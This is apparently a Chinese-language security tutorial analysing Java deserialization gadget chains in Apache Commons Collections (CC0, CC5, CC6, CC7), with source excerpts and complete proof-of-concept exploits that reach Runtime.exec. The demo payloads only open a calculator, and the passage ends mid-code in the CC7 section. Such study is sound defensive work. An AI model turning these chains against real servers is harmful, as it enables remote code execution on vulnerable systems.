## 写在前面



>在程序分析中，一般把漏洞切入点称为『 source 』，不过本文用『 kick - off 』代替，后面的分析会更换称谓。

看看java反序列化三要素

1. 『kick-off』 gadget ==> 寻找重写readobject的类
2. chain gadget        ==> 将『kick-off』 gadget 和 『sink』gadget连接起来
3. 『sink』 gadget        ==> RCE触发点

在php反序列化链的挖掘中，我们也可以带入上面的三要素，『kick-off』我理解为`__destruct()`或者`__wakeup()`,『sink』则为类似`call_user_func`等的回调函数。看师傅们挖掘php的pop链，一般都是从『kick-off』出发，去把chain的走向引去『sink』。

但对java而言，没有php动态语言的特性，要想执行一些特定的函数本身就会难很多，所以一般都是从『sink』出发，『kick-off』 通常是辅助执行的手段，(当然也不一定，毕竟我也没挖过0day)。

那要开始cc链前，我们先简单了解一下**Commons Collections**这个项目到底是什么吧

>The [Java Collections Framework](http://docs.oracle.com/javase/tutorial/collections/) was a major addition in JDK 1.2. It added many powerful data structures that accelerate development of most significant Java applications. Since that time it has become the recognised standard for collection handling in Java.

简单来说 Commons Collections这个包为我们提供了很多强有力的数据结构类型并且实现了各种集合工具类。一个简单的例子：

```java
public static void main(String[] args) {
    List<String> list1 = new ArrayList<String>();
    list1.add("theoyu");
    list1.add("theoyu2");
    List<String> list2 = new ArrayList<String>();
    list2.add("theoyu");
    list2.add("theoyu3");
    System.out.println(CollectionUtils.containsAny(list1,list2));
}
```

`CollectionUtils.containsAny`可以返回两个集合是否含有相同元素的bool值。同样CC包还提供了求集合的交集元素，并集元素等函数。就是这样一个在数据结构层的操作，如果开发者满足其环境条件，并提供了反序列化的入口，我们就可以达到RCE的目的。

## CC 0

这并不是传统cc1的链子，是p神在java漫谈中所谈及的，相比于cc1的动态代理的利用，更加好理解一些。

### 利用要求

- **cc3.1～3.2.1**
- **jdk 1.7**(8u71之前都可以)

mvn：

```
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

### 完整poc

```java
public class Test4 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] {String.class, Class[].class },
                        new Object[] {"getRuntime", new Class[0] }
                ),
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class },
                        new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] {String.class },
                        new Object[] {"open -a Calculator"})
        };
        Transformer transformer = new ChainedTransformer(transformers);
        Map map1 = new HashMap();
        map1.put("value","theoyu");
        Map map2 = TransformedMap.decorate(map1,null,transformer);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        Object obj = construct.newInstance(Retention.class, map2);


        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("Test4.bin"));
        objectOutputStream.writeObject(obj);


        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("Test4.bin"));
         objectInputStream.readObject();
    }
}
```

### 从 sink出发

从poc中也能很明显感受到,**InvokerTransformer**这个类有一些问题，我们的payload就是写在这个类的构造函数中。

先本地写一个看看

```java
public class Test1  {
    public static void main(String[] args) throws Exception {
        InvokerTransformer invokerTransformer = new InvokerTransformer(
                "exec",
                new Class[]{String.class},
                new Object[]{"open -a Calculator"}
        );
        invokerTransformer.transform(Runtime.getRuntime());
    }
}
```

执行即可弹出计算器，跟进`transform`:

**org.apache.commons.collections.functors.InvokerTransformer**->`transfrom(Object input)`


上面的构造函数，即一一对应我们传入的**methodName**,**paramTypes**以及**args**，重点在下面的`transform`，非常典型的反射调用。

ok sink我们找着了，但这样只能自己打自己，模拟一下客户端服务端模式试一试


理想的情况下，服务端应该什么也不需要准备，但是由于sink并不是在readobject的时候触发，而是转化为特定的对象，重新执行，并且还需要传入一个恶意的对象作为参数，这就需要服务端**主动配合**我们的payload，满足其上下文要求。越想越离谱，接下来就需要逐一构造chain，来**简化服务端利用的需求**

### 构造chain

#### ChainedTransformer

先解决服务端传入`Runtime.getRuntime()`的这个问题

这里我们找到了一个很重要的类->**ChainedTransformer**


它可以把我们的Transformer构造成一条链，并逐一执行链中对象的transform方法，并且注意每次transform传入的参数，都是上一个对象transform的返回值。

想想上一个InvokerTransformer中的transform，不就需要传入一个Runtime对象吗，那有没有办法在链中，我们就可以先返回一个Runtime对象，根据链上的规则传入到下一个transform的参数中，达到利用，最后直接写入Transformer链即可。

答案就是**ConstantTransformer**，顾名思义其transfrom方法就是直接返回一个对象


本地写一个看看

```java
public class Test2 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a Calculator"})
        };
        Transformer transformer = new ChainedTransformer(transformers);
        transformer.transform(null);
        }
}
```

这里ChainedTransformer->transform先调用了链上ConstantTransformer->transform,然后传入到下一个InvokerTransformer->transfrom的参数中，最后弹出了计算器。

模拟客户端服务端试试


报错了，因为构造链的时候，Runtime类根本没有继承Serializable，写入和读取都会失败


换个思路，因为sink的触发是一个反射调用，反射第一步就是找到Class对象，这里我们传入的`Runtime.getRuntime()`在transfrom方法里也会调用`getClass()`方法去找到**java.lang.Runtime**的Class对象


因为Class类是继承于Serializable，那我们直接传入一个**Runtime.class**试试


报错了，但是报错理由很奇怪: **java.lang.Class**这个类找不到**exec**方法，问题是我们传入的不是**java.lang.Runtime**的Class对象吗，为什么会找到奇奇怪怪的地方去。

写个简单的例子看看

```java
System.out.println(Runtime.getRuntime().getClass());
//class java.lang.Runtime

System.out.println(Runtime.class.getClass());
//class java.lang.Class
```

getClass是native方法，用c或者c++实现，并不能直接看到源码，需要在openjdk的jre中查看。


这里直接引用大佬的原话

>getClass()根据传入参数的不同返回数据也会有不同
>
>1. 如果传入的是类的实例， 那么返回的就是当前类的Class对象
>2. 如果传入的是类，那么返回的就是 java.lang.Class的Class对象

那我们现在相当于就是需要从` java.lang.Class`中通过反射命令执行

这里直接给出poc,相比于寻找的反射调用，多加了一个**getMethod**,

```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod",
                new Class[] {String.class, Class[].class },
                new Object[] {"getRuntime", new Class[0] }
        ),
        new InvokerTransformer("invoke",
                new Class[] {Object.class, Object[].class },
                new Object[] {null, new Object[0] }),
        new InvokerTransformer("exec",
                new Class[] {String.class },
                new Object[] {"open -a Calculator"})
};
```


现在好了一些，至少对于服务端而言，他是察觉不到Runtime类的存在了，不过这里我们还可以把利用更加简化一些。

为了完整的实现利用链，我们现在还需要同时达到以下两个目标：

- **找到一个 `tansform()` 方法 , 该方法所属的实例对象是可控的.**
- **找到一个重写的 `readObject()` 方法 , 该方法会自动调用 `transform()` 方法.**

针对这个目标所引申的两种攻击方法：`TransformedMap`和`LazyMap`，前者引出了cc0，后者成就了cc 1 3 5 6 7。

#### TransformedMap

上述我们写入的**ChainedTransformer**是一个转换链，**TransformedMap**类提供将map和转换链绑定的构造函数，**只需要添加数据至map中**就会**自动调用**这个转换链的**transform**。

org.apache.commons.collections.map.TransformedMap->`put()`

```java
public Object put(Object key, Object value) {
    key = this.transformKey(key);
    value = this.transformValue(value);
    return this.getMap().put(key, value);
}
```

org.apache.commons.collections.map.TransformedMap->`transformValue()`

```java
protected Object transformValue(Object object) {
    return this.valueTransformer == null ? object : this.valueTransformer.transform(object);
}
```

可以看到如果我们可以控制TransformedMap中的transformValue成员对象，就可以调用这个对象的transform方法，TransformedMap的构造方法是protected修饰，不过其提供了静态方法`decorate()`可以用来创建。


这样我们就可以把触发条件从显性的调用**转换链的transform函数**延伸到**修改map的值**。很明显后者是一个常规操作，极有可能被触发。

到这chain的构造并没有结束，按照构造攻击链的逻辑，我们现在需要找到一条能够自调用`TransformedMap.put()`的『 kick-off 』，很遗憾这并没有。

不过除了`TransformedMap.put()`可以调用`transform()`之外，我们还找了另外一个`checkSetValue()`方法，不过该方法是**protected**修饰，还需要找到其他调用链。

```java
protected Object checkSetValue(Object value) {
    return this.valueTransformer.transform(value);
}
```

#### AbstractInputCheckedMapDecorator

在TransformedMap的父类AbstractInputCheckedMapDecorator中，有一个静态内部类 **MapEntry** ,该类 `setValue()` 中调用了 `checkSetValue()` 方法.

```java
static class MapEntry extends AbstractMapEntryDecorator {
    private final AbstractInputCheckedMapDecorator parent;

    protected MapEntry(Entry entry, AbstractInputCheckedMapDecorator parent) {
        super(entry);
        this.parent = parent;
    }

    public Object setValue(Object value) {
        value = this.parent.checkSetValue(value);
        return super.entry.setValue(value);
    }
}
```

现在我们只需要令MapEntry的`this.parent `指向TransformedMap实例对象即可，通过其构造方法我们也可以看到parent是可控的。

这里发现其构造方法又是**protected**，接下来我们需要通过抽象类**AbstractInputCheckedMapDecorator**中的三个静态内部类返回一个MapEntry实例对象：

`EntrySetIterator.next()`

```java
static class EntrySetIterator extends AbstractIteratorDecorator {
    private final AbstractInputCheckedMapDecorator parent;

    protected EntrySetIterator(Iterator iterator, AbstractInputCheckedMapDecorator parent) {
        super(iterator);
        this.parent = parent;
    }

    public Object next() {
      //下面这一行需要注意
        Entry entry = (Entry)super.iterator.next();
        return new AbstractInputCheckedMapDecorator.MapEntry(entry, this.parent);
    }
}
```
`EntrySet.iterator()`

```java
static class EntrySet extends AbstractSetDecorator {
    private final AbstractInputCheckedMapDecorator parent;

    protected EntrySet(Set set, AbstractInputCheckedMapDecorator parent) {
        super(set);
        this.parent = parent;
    }

    public Iterator iterator() {
        return new AbstractInputCheckedMapDecorator.EntrySetIterator(super.collection.iterator(), this.parent);
    }
  ...
}
```

`AbstractInputCheckedMapDecorator.entrySet()`

```java
public Set entrySet() {
    return (Set)(this.isSetValueChecking() ? new AbstractInputCheckedMapDecorator.EntrySet(super.map.entrySet(), this) : super.map.entrySet());
}
```

如上面所说，TransformedMap 就是继承于AbstractInputCheckedMapDecorator，所以可以直接调用`TransformedMap.entrySet() `,而传入的`this`就是TransformedMap本身，也就解决了MapEntry的`this.parent `指向TransformedMap实例对象的问题。在这之前我们还需要保证`TransfromedMap.isSetValueChecking() `返回为True才行。

```java
protected boolean isSetValueChecking() {
    return this.valueTransformer != null;
}
```

这里的`valueTransformer`可是我们在`decorate()`中精心准备的**ChainedTransformer**，其当然不为空，那么我们就可以顺利获取mapEntry对象。

总结就是如下：

```
+----------------+  entrySet()   +------------------+
| TransformedMap | ------------> |     EntrySet     |
+----------------+               +------------------+
                               			    |
                                   			| iterator()
                                   			v
+----------------+  next()       +------------------+
|    MapEntry    | <------------ | EntrySetIterator |
+----------------+               +------------------+
```


### 寻找『 kick-off 』

其实走到这，触发已经比较容易了，在jdk1.7中就存在一个完美的readobject复写点的类`sun.reflect.annotation.AnnotationInvocationHandler`


虽然一眼就看到了`setValue`，这里的利用也有些复杂，不过调试一遍还算明了。

上一步中为了防止`next()`报错，我们对HashMap现put了一个空键值对，但在最终的poc中我们需要对键值对的**键名**有所要求，要求其为`value`，下面给出解释。

```java
...
Map map1 = new HashMap();
//错误的键名
map1.put("fakevalue","theoyu");
Map map2 = TransformedMap.decorate(map1,null,transformer);
...
```


这里var2通过反射和注解，获取到了一个实例，其memberTypes->**var3**中包含一个键名为`value`的HashMap，注意到这都是我们不可控的范围，也就是说这里的**var3**的值是确定的。


接下里你肯定不会陌生，这里的**memberValues**正是我们传入的TransformedMap，而紧随其后`entrySet().iterator()`正是返回了EntrySetIterator ，var5调用了`next()`方法也就得到了我们事先定义的键值对。

接着var6获取了var5的键值，也就是**fakevalue**,然后从**var3**中尝试获取键为**var6**的值

走到这：

```
var3: (value:xxxxx)
var6: fakevalue
```

这就解释了为什么我们事先要求传入TransformedMap的键名为**value**，不然获取的var7为空，是无法走到`var5.setValue()`。

由于**AnnotationInvocationHandler**的构造函数是默认访问权限，通过默认修饰符修饰的方法只能同包访问 , 因此这里无法直接访问，我们反射修改权限即可：

```java
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);
Object obj = construct.newInstance(Retention.class, map2);
```

这里传入的`Rentetion.class`也就是对应下方的`var1`，if判断语句需要满足三个条件才能对`this.memberValues`赋值，而**Retention** 属于 **java.lang.annotation**包下，自然空调满足。

```java
AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
    Class[] var3 = var1.getInterfaces();
    if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {
        this.type = var1;
        this.memberValues = var2;
    } else {
        throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
    }
}
```

至此，我们终于走完了cc链中的第一条。

### jdk1.8为什么不行

在Java 8u71之后，`sun.reflect.annotation.AnnotationInvocationHandler`的readobject发生了变动


可以看到这里不再针对我们想要赋值的map进行操作，而是重新创建了一个**LinkedHashMap**操作，那也就达不到触发sink的目的了。

## CC 5

### 利用要求

条件：

- **cc3.1～3.2.1**
- **jdk 版本暂无限制**

mvn：

```
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

### 完整poc

```
ObjectInputStream.readObject()
		BadAttributeValueExpException.readObject()
        TiedMapEntry.toString()
            LazyMap.get()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Class.getMethod()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.getRuntime()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.exec()
```

```java
public class Poc {
    public static void main(String[] args)throws Exception {
      //sink
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"open -a Calculator"})});
				//chain
        HashMap innermap = new HashMap();
        Map map =  LazyMap.decorate(innermap,chain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, null);
      //kick off
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        Field val = BadAttributeValueExpException.class.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,tiedMapEntry);

        //客户端写payload
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("bin/CC5Poc.bin"));
        objectOutputStream.writeObject(badAttributeValueExpException);

        //服务端读paylaod
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("bin/CC5Poc.bin"));
        objectInputStream.readObject();

    }
}
```

### 构造chain

cc5的 sink 和 cc0 完全相同，之前所说 jdk 在 1.8之后对 AnnotationInvocationHandler 类做了限制，所以 TiedMapEntry 和 BadAttributeValueExpException 就被挖掘了出来。这可能是最浅显易懂的一条 cc 链。

接着cc0所说的，为了触发sink->`ChainedTransformer`，我们需要以下两点

- **找到一个 `tansform()` 方法 , 该方法所属的实例对象是可控的.**
- **找到一个重写的 `readObject()` 方法 , 该方法会自动调用 `transform()` 方法.**

#### LazyMap

世界线收束到**LazyMap**：

```java
public class LazyMap extends AbstractMapDecorator implements Map, Serializable{    
  //...简要写几个重要的方法
  protected final Transformer factory;
  public static Map decorate(Map map, Transformer factory) {
    return new LazyMap(map, factory);
	}
  public Object get(Object key) {
    if (!super.map.containsKey(key)) {
        Object value = this.factory.transform(key);
        super.map.put(key, value);
        return value;
    } else {
        return super.map.get(key);
    }
	}
}
```

在`LazyMap.get()`方法中，触发了`this.factory.transform(key);`，而刚好factory就支持Transformer类型，虽然LazyMap的构造方法是protected修饰，不过我们可以使用`decorate()`方法返回一个LazyMap。

那么现在需要找的就是可以触发`map.get()`的点。

#### TiedMapEntry

在TiedMapEntry类中，有如下几个方法：

```java
public class TiedMapEntry implements Entry, KeyValue, Serializable {
    private static final long serialVersionUID = -8453869361373831205L;
    private final Map map;
    private final Object key;

    public TiedMapEntry(Map map, Object key) {
        this.map = map;
        this.key = key;
    }

    public Object getKey() {
        return this.key;
    }

    public Object getValue() {
        return this.map.get(this.key);
    }
  .......
    public int hashCode() {
        Object value = this.getValue();
        return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^ (value == null ? 0 : value.hashCode());
    }
  	public String toString() {
        return this.getKey() + "=" + this.getValue();
    }
}
```

`toString()`和`hashCode()` 两个方法都调用了`getValue()`,从这也就引申出了cc5和cc6，这里我们分析前者即可。

可见只需要把`this.map`指向Lazymap，然后调用`toString()`方法即可，通过构造方法我们也可以得知成员变量map的确可控。

```java
HashMap innermap = new HashMap();
Map map =  LazyMap.decorate(innermap,chain);
TiedMapEntry tmap = new TiedMapEntry(map, null);
```

那么现在我们只需要找到可以触发`toString()`的点即可。

### 寻找『 kick-off 』

`BadAttributeValueExpException.readObject`

```java
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    ObjectInputStream.GetField gf = ois.readFields();
    Object valObj = gf.get("val", null);

    if (valObj == null) {
        val = null;
    } else if (valObj instanceof String) {
        val= valObj;
    } else if (System.getSecurityManager() == null
            || valObj instanceof Long
            || valObj instanceof Integer
            || valObj instanceof Float
            || valObj instanceof Double
            || valObj instanceof Byte
            || valObj instanceof Short
            || valObj instanceof Boolean) {
        val = valObj.toString();
    } else { // the serialized object is from a version without JDK-8019292 fix
        val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
    }
}
```

判断语句中的`System.getSecurityManager() `默认为null，也就触发了`valObj.toString()`。

 通过反射修改私有属性**val**：

```java
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        Field val = BadAttributeValueExpException.class.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,tiedMapEntry);
```

## CC 6

### 利用要求

- **cc3.1～3.2.1**
- **jdk 版本暂无限制**

### 完整poc

```
ObjectInputStream.readObject()
		HashSet.readObject()
				HashMap.put()
				HashMap.hash()
						TiedMapEntry.hashCode()
						TiedMapEntry.getValue()
								LazyMap.get()
										ChainedTransformer.transform()
										InvokerTransformer.transform()
										Method.invoke()
												Runtime.exec()
```

```java
public class Poc {
    public static void main(String[] args)throws Exception {
      //sink
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"open -a Calculator"})});
				//chain
        HashMap innermap = new HashMap();
        Map map =  LazyMap.decorate(innermap,chain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, 123);

        HashSet hashset = new HashSet(1);
        hashset.add("foo");

        Field field = Class.forName("java.util.HashSet").getDeclaredField("map");
        field.setAccessible(true);
        HashMap hashset_map = (HashMap) field.get(hashset);
      //kick off
        Field table = Class.forName("java.util.HashMap").getDeclaredField("table");
        table.setAccessible(true);
        Object[] array = (Object[])table.get(hashset_map);
        Object node = array[0];

        Field key = node.getClass().getDeclaredField("key");
        key.setAccessible(true);
        key.set(node,tiedMapEntry);

        //客户端写payload
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("bin/CC6Poc.bin"));
        objectOutputStream.writeObject(hashset);

        //服务端读paylaod
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("bin/CC6Poc.bin"));
        objectInputStream.readObject();
    }
}
```

### 构造chain

如cc5所提到的，我们可以通过`TiedMapEntry.hashcode()`触发`LazyMap.get()`。

说到hashcode，就又不得不提URLDNS这条链，我们知道只要对hashmap进行put，就会对键值进行`hashcode()`运算。

```java
......
TiedMapEntry tiedMapEntry = new TiedMapEntry(map, null);
HashMap hashMap = new HashMap();
hashMap.put(tiedMapEntry,null);
//触发sink
```

但是这样会有一个问题，如同我们在URLDNS中谈及到的，在构造poc的时候就会触发一次sink，`readobject()`时再触发一次,不过如果能触发两次，勉勉强强也可以接受：

```java
public class Test1 {
    public static void main(String[] args)throws Exception {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"open -a Calculator"})});

        HashMap innermap = new HashMap();
        Map map =  LazyMap.decorate(innermap,chain);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, null);
        HashMap hashMap = new HashMap();
        hashMap.put(tiedMapEntry,null);

        //客户端写payload
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("bin/CC6Test1.bin"));
        objectOutputStream.writeObject(hashMap);

        //服务端读paylaod
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("bin/CC6Test1.bin"));
        objectInputStream.readObject();
    }
}
```


结果居然报错了，`writeObject()`了一个非可序列化对象，可是我们构造的hashmap应该没有问题，跟进一下：


答案就在本地命令执行之后，我们**hashmap**的**key**->**tiedMapEntry**的**value**从**LazyMap**变成了**java.lang.UNIXProcess**类型，从我们熟悉的**ProcessPipe**也可以看出来这的确和命令执行有关。

重新梳理一下，我们现在是通过`hashmap.readObject()`，去触发hashmap中key的`hashcode()`，这就需要我们提前对hashmap去put一个tiedMapEntry，然而put的时候

就会触发`hashcode()`导致命令执行并且改变其类型。

### 反射修改hashmap

那么现在想法其实也很简单，不能在构造的时候通过`put()`修改 key ，那我们完全可以通过反射实现：

```java
HashMap innermap = new HashMap();
Map map =  LazyMap.decorate(innermap,chain);
TiedMapEntry tiedMapEntry = new TiedMapEntry(map, 123);

HashMap hashmap = new HashMap();
hashmap.put("123","456");
//拿到map的table
Field table = Class.forName("java.util.HashMap").getDeclaredField("table");
table.setAccessible(true);
Object[] array = (Object[])table.get(hashmap);
Object node = null;
for(Object o:array){
    if (o!=null){
        node =o;
        break;
    }
}
//修改table的key
Field key = node.getClass().getDeclaredField("key");
key.setAccessible(true);
key.set(node,tiedMapEntry);
```

`HashMap.table` 类型为 `Entry.Class` , 是HashMap更为底层的实现，其中key就封装在这里面，通过反射修改其key，就可以传递修改HashSet的key值。

在java中没有指针，我们使用对象引用 node ，从达到对`table.key`的修改。这里解释一下这一代码：

```java
for(Object o:array){
    if (o!=null){
        node =o;
        break;
    }
}
```


虽然我们初始化hashmap只有一个元素`hashmap.put("123","456");`但是Entry的大小却是16，我们需要迭代来找到初始化的那一个键值对进行修改。

### Hashset的『 kick-off 』

但是正规的cc6并没有直接使用hashmap作为『 kick-off 』，而是使用了 **Hashset**，首先我们先了解一下什么是Hashset：

>HashSet扩展了 AbstractSet 接口并实现了 Set 接口 , 它创建了一个使用 HashMap 进行存储的**没有重复元素**的集合

Hashset中比较关键的几个点：

```java
//私有成员map本身类型就是HashMap，不过value永远是固定的Object
private transient HashMap<E,Object> map;
......
//最后往map中put了e，只要把e控制为tiedMapEntry即可
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in any hidden serialization magic
    s.defaultReadObject();

    // Read in HashMap capacity and load factor and create backing HashMap
    int capacity = s.readInt();
    float loadFactor = s.readFloat();
    map = (((HashSet)this) instanceof LinkedHashSet ?
           new LinkedHashMap<E,Object>(capacity, loadFactor) :
           new HashMap<E,Object>(capacity, loadFactor));

    // Read in size
    int size = s.readInt();

    // Read in all elements in the proper order.
    for (int i=0; i<size; i++) {
        E e = (E) s.readObject();
        map.put(e, PRESENT);
    }
}
```

其实和hashmap没什么两样，反射修改key即可。

```java
HashSet hashset = new HashSet(1);
hashset.add("foo");

//拿到hashset的map
Field field = Class.forName("java.util.HashSet").getDeclaredField("map");
field.setAccessible(true);
HashMap hashset_map = (HashMap) field.get(hashset);
//拿到map的table
Field table = Class.forName("java.util.HashMap").getDeclaredField("table");
table.setAccessible(true);
Object[] array = (Object[])table.get(hashset_map);
Object node = null;
for(Object o:array){
    if (o!=null){
        node =o;
        break;
    }
}
//修改table中的key
Field key = node.getClass().getDeclaredField("key");
key.setAccessible(true);
key.set(node,tiedMapEntry);
```

## CC 7

### 利用条件

- **cc3.1～3.2.1**
- **jdk 版本暂无限制**

### 完整poc

```java
public class Poc {
    public static void main(String[] args) throws Exception {
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{});
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class}, new Object[]{"open  -a Calculator"})
        };
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);

        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        Field field =transformerChain.getClass().getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(transformerChain,transformers);
        lazyMap2.remove("yy");

        //客户端写payload
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("bin/CC7Poc.bin"));
        objectOutputStream.writeObject(hashtable);
        objectOutputStream.close();

        //服务端读paylaod
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("bin/CC7Poc.bin"));
        objectInputStream.readObject();
    }
}
```

### 前置知识

#### hash冲突

在调试cc7之前，我们先简单了解一下hash冲突，不然对后续的一些概念可能难以理解。

首先，为什么会有hash冲突的情况呢？说白了，hash 表就是牺牲空间来换取时间的一种数据结构，但是我们不可能无限制初始化 hash 表的大小，所以在进行hash表的填充时的有以下两种hash冲突的可能：

1. 不同的key，经过`hashcode()`运算得到的hashcode相同。
1. 不同的hashcode 取余后落在一个bucket(hash表index的值)里。

一般来说第二种情况比较常见，我们用 **Linklist** 数据结构把落在同一个bucket里的数据"串"起来，就像下图。



但随着元素的增长，每个bucket所对应的 **Linklist** 会越来越长，最后退化成纯链表，所以我们设置元素 **N** 和 bucket数量**M**的比值为**L** 为负载因子 (**load factor**)。当负载因子较大

时，我们需要对hash表扩容并重新调整位置，以提高效率。

有点扯远了... 因为在cc7中考虑的hash冲突是第一种情况，我们先看看**String**类型的`hashcode()`

```java
public int hashCode() {
    int h = hash;
    if (h == 0 && value.length > 0) {
        char val[] = value;

        for (int i = 0; i < value.length; i++) {
            h = 31 * h + val[i];
        }
